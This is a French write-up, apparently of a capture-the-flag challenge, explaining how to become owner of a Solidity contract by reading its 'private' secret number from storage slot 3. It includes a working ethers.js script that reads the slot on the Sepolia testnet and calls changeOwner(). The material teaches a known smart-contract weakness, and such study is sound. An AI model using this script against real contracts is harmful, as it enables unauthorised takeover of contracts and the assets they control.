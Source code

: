 Il s'affiche ensuite en dessous dans la partie `Deployed Contracts`.
Le but est de devenir owner du contrat. On voit une fonction `getOwner()` en visibilité public : en l'appelant on récupère owner actuel qui n'est évidemment pas notre adresse de wallet.

![Remix2](./img//remix2.png)

### Analyse du code

On remarque dans le code une fonction qui nous permet de devenir owner : `changeOwner()`. Elle prend en paramètre un **nombre secret** que nous devons trouver et si l'on donne le bon, alors on récupère l'ownership de l'instance.
La fonction le compare à la valeur de la variable `s_secretNumber`. Malheureusement cette variable est en visibilité `private`, nous ne pouvons pas l'appeler pour lire sa valeur.
Ce n'est pas pour autant que ce n'est pas possible. Cette variable est stockée dans le Storage du smart contract. Nous devons trouver le numéro de Slot où la variable est stockée puis lire ce Slot.
La variable est sur le Slot 3.

Pour apprendre à calculer le numéro de Slot d'une variable, vous pouvez aller voir sur site : https://docs.soliditylang.org/en/v0.8.13/internals/layout_in_storage.html

### Exploitation

Nous allons utiliser la library `ethersjs` pour charger notre contrat et récupérer la valeur du Slot 3.

```js
const ethers = require("ethers");
const fs = require("fs-extra");
require("dotenv").config();

async function main() {
  const { PRIVATE_KEY, SEPOLIA_RPC_URL, CONTRACT_ADDRESS, CONTRACT_NAME } =
    process.env;
  const provider = new ethers.JsonRpcProvider(SEPOLIA_RPC_URL);
  const wallet = new ethers.Wallet(PRIVATE_KEY, provider);

  // The ABI and binary files of the compiled contract
  const abi = fs.readFileSync(`./File_sol_${CONTRACT_NAME}.abi`, "utf-8");
  const binary = fs.readFileSync(`./File_sol_${CONTRACT_NAME}.bin`, "utf-8");

  // To load a deployed contract
  const contract = new ethers.Contract(CONTRACT_ADDRESS, abi, wallet);

  // To get the Slot 3
  const secretNumber = await getStorage(CONTRACT_ADDRESS, 3, provider);
  console.log(`Keccak secret value : ${secretNumber}`);

  // To call the changeOwner() function to get the ownership
  const tx = await contract.changeOwner(secretNumber);
  await tx.wait();
}

// To get storage datas of a contract
async function getStorage(contractAddress, slotNumber, provider) {
  return await provider.getStorage(contractAddress, slotNumber);
}

main()
  .then(() => process.exit(0))
  .catch((error) => {
    console.error(error);
    process.exit(1);
  });
```
